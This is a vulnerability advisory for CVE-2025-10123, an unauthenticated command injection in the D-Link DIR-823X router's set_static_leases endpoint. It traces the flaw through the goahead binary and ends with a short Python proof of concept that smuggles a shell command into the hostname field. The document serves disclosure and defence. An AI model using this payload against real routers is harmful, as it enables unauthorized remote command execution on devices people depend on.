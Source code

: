 # CVE-2025-10123

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Basic Information

Vulnerability Vendor: D-Link Technology Co., Ltd.

Official Website: https://www.dlink.com.cn/

Affected Device Type: Routers

Affected Product: DIR-823X

Affected Product Version: <= V250416



## Vulnerability Overview

The latest version 250416 (250416) of the D-LINK DIR-823X router contains an unauthorized command execution vulnerability. The vulnerability resides in the /usr/sbin/goahead file. Accessing the router's /goform/set_static_leases function and requesting specific fields allows arbitrary command execution without authentication, enabling remote command execution and even shell access.

Download the latest firmware from the official website. [D-Link Technical Support](http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823X)
Locate the /usr/sbin/goahead file and find the function request entry.

![](img/0.png)

![](img/1.png)

Here we can see that the above values are taken and then processed by the sub_415028 function to continue tracking.

![](img/2.png)

Found that the command was finally spliced in

![](img/3.png)

![](img/4.png)

Previously, there was a filter for dangerous characters, but it wasn't completely strict, allowing for command injection.

Access testing revealed normal access without requiring a login.

![](img/5.png)

Try to execute the command to create a file and find that it is successfully executed

![](img/6.png)



## POC

```python
# !/usr/bin/env python3
import requests


TARGET_URL = "http://192.168.122.150/goform/set_static_leases"


reverse_shell_cmd = '" |ls > 1.txt"'


try:
    response = requests.post(
        TARGET_URL,
        data={"hostname": reverse_shell_cmd,"modmun":"1","ipaddr":"192.168.122.150","macaddr":"99"},
        timeout=10
    )
    print(f"请求发送成功，状态码: {response.status_code}")
    print(f"响应内容: {response.text}")

except requests.exceptions.RequestException as e:
print(f"请求失败: {e}")
```

![](img/7.png)

## Vulnerability Impact

An attacker could exploit this vulnerability to execute unauthorized commands and escalate privileges.

## Remediation Solution

Contact the vendor to obtain the security patch and implement a timely vulnerability fix.